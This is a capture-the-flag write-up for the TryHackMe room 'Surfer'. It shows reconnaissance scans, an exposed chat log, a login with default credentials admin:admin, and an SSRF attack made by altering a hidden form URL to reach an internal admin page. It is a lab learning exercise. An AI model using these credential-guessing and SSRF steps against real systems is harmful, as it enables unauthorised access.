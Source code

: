## Surfer	

Room link: https://tryhackme.com/room/surfer

## Scanning 
Just to ensure that I wasn't missing anything. I ran an aggressive NMAP scan. 
```
ajread@aj-ubuntu:~/TryHackMe$ nmap -A [REMOTE IP]
Starting Nmap 7.80 ( https://nmap.org ) at 2022-10-27 19:16 EDT
Nmap scan report for [REMOTE IP]
Host is up (0.073s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-robots.txt: 1 disallowed entry 
|_/backup/chat.txt
|_http-server-header: Apache/2.4.38 (Debian)
| http-title: 24X7 System+
|_Requested resource was /login.php
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.39 seconds
```
I ran nikto as well to see what possible web app vulnerabilities there were. 
```
ajread@aj-ubuntu:~/TryHackMe$ nikto -h [REMOTE IP]
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          [REMOTE IP]
+ Target Hostname:    [REMOTE IP]
+ Target Port:        80
+ Start Time:         2022-10-27 19:16:35 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.38 (Debian)
+ Cookie PHPSESSID created without the httponly flag
+ Retrieved x-powered-by header: PHP/7.2.34
+ The anti-clickjacking X-Frame-Options header is not present.
+ Root page / redirects to: /login.php
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server leaks inodes via ETags, header found with file /robots.txt, fields: 0x28 0x5d9416f2ee840 
+ File/dir '/backup/chat.txt' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ "robots.txt" contains 1 entry which should be manually viewed.
+ OSVDB-3233: /icons/README: Apache default file found.
+ /login.php: Admin login page/section found.
+ 6544 items checked: 0 error(s) and 8 item(s) reported on remote host
+ End Time:           2022-10-27 19:28:10 (GMT-4) (695 seconds)
---------------------------------------------------------------------------
```
As seen, there was a robots.txt entry. I investigated the entry and found and interesting chat log. 
```
ajread@aj-ubuntu:~/TryHackMe$ curl http://[REMOTE IP]/backup/chat.txt

Admin: I have finished setting up the new export2pdf tool.
Kate: Thanks, we will require daily system reports in pdf format.
Admin: Yes, I am updated about that.
Kate: Have you finished adding the internal server.
Admin: Yes, it should be serving flag from now.
Kate: Also Don't forget to change the creds, plz stop using your username as password.
Kate: Hello.. ?
```
Therefore, I was able to log into the application with credentials ```admin:admin```. On the right hand side within Recent Activity, the application stated that the flag was located within ```/internal/admin.php```.The chat above talked about the export2pdf tool that was new as well. I needed to conduct SSRF to access the internal page. I decided to check out how the export2pdf interacts with the webpage. It appeared to submit a POST request to an internal info page. 
```

            <!-- Reports -->
            <div class="col-12">
              <div class="card">

                <div class="card-body">
                  <h5 class="card-title">Export Reports <span>/Today</span></h5>
                  <form class="row g-3 needs-validation" novalidate action="export2pdf.php" method="POST">
                    <input type="hidden" id="url" name="url" value="http://127.0.0.1/server-info.php">
                    <div class="col-12">
                        <button class="btn btn-primary w-100" type="submit">Export to PDF</button>
                    </div>
                  </form>
                </div>

              </div>
            </div><!-- End Reports -->
```
I changed the value of the webpage to be the ```/internal/admin.php``` page and resent the request by clicking the Export to PDF button. 
```

            <!-- Reports -->
            <div class="col-12">
              <div class="card">

                <div class="card-body">
                  <h5 class="card-title">Export Reports <span>/Today</span></h5>
                  <form class="row g-3 needs-validation" novalidate action="export2pdf.php" method="POST">
                    <input type="hidden" id="url" name="url" value="http://127.0.0.1/internal/admin.php">
                    <div class="col-12">
                        <button class="btn btn-primary w-100" type="submit">Export to PDF</button>
                    </div>
                  </form>
                </div>

              </div>
            </div><!-- End Reports -->
```
Finally, I found the flag! 